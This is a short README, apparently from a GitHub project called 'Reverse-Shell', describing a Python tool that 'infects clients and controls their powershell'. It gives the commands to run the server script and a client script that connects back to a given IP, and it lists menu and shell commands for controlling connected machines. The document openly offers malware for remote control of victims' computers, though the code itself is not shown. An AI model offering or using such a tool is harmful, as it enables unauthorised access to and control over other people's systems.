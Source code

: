 # Reverse-Shell
Infects clients and controls their powershell with Python.
To de instalation you need has a server (any operative system) and 
execute the python script.
#### Requirements

- 🐍 Python 3.x 🐍
- 💫 Open Ports 💫

#### Installation
Linux or Windows or  MacOs

#### [Server]

```sh
python3 server.py
```
#### [Client]
```sh
python3 client.py {ip}
```

#### Extra commands

##### [Menu]

- connect {number}

##### [Shell Commmands]

- alert {title} {message}
- exit
